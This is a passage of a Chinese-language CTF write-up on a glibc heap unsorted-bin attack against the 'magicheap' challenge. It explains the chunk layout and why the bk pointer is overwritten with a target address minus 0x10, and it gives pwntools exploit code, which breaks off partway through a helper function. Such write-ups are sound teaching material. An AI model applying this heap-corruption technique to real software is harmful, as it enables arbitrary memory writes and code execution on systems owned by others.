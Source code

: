 在 glibc 的实现中，`fd->bk` 和 `bk->fd` 的写入操作是基于 chunk 的头部结构

每个 chunk 的 `fd` 和 `bk` 指针位于 chunk 的 `mem` 区域之前 0x10 字节（即 `chunk + 0x10`）

```python
+-------------------+ <-- chunk 起始地址
|      prev_size    |  (前一个 chunk 的大小，如果前一个 chunk 是空闲的)
+-------------------+
|       size        |  (当前 chunk 的大小，低 3 位用于标志位)
+-------------------+ <-- mem 区域起始地址
|        fd         |  (指向下一个 chunk)
+-------------------+
|        bk         |  (指向上一个 chunk)
+-------------------+
|      user data    |  (用户数据区域)
+-------------------+
```

因此：

- 如果 `fd` 被修改为 `target_addr - 0x10`，那么 `fd->bk` 就会写入 `target_addr`
- 同理，如果 `bk` 被修改为 `target_addr - 0x10`，那么 `bk->fd` 也会写入 `target_addr`

这里就是注意最后的 `p64(0x6020A0 - 0x10)`

我们重新 malloc 的时候，他的机制会检验 bin 和 bk 的指向对不对

这里我们进行了修改就肯定会出问题

其实也不算出问题，就是它会把 bin 被指向我们修改的地址的往下 0x10 的位置

也就是跳过了前 0x10 个字节，所以要减 0x10

这里我们就可以看到 0x6020A0 被我们修改到指向 bin，bin 这里的值远远大于题目所需所以我们就完成了修改任意地址的任务

再进行一次输入就可以了

```python
magic = 0x6020A0
EditHeap(0, 0x50, 0x30 * b"a" + p64(0) + p64(0x91) + p64(0) + p64(magic - 0x10))
```

![](https://pic1.imgdb.cn/item/67dbbd6788c538a9b5c1b278.png)

然后我们再次创建与 chunk 1 同样大小的 chunk ，被 free 掉的 chunk 1 就会从 unsorted bin 中取出，做脱链操作

即我们向 magic 写入了一个 大于 0x1305 的值（unsorted bin 链表头地址）

然后我们再次 malloc 与 unsorted bin 一样大小的块就可以进入 get_flag 成功拿 shell

```python
CreateHeap(0x80,'dddd')
```

```python
from pwn import *

p = process('./magicheap')
#p = remote('node5.buuoj.cn',27829)

def CreateHeap(size,content):
	p.recvuntil(':')
	p.sendline('1')
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.sendline(content)
 
def EditHeap(idx,size,content):
	p.recvuntil(':')
	p.sendline('2')
	p.recvuntil(':')
```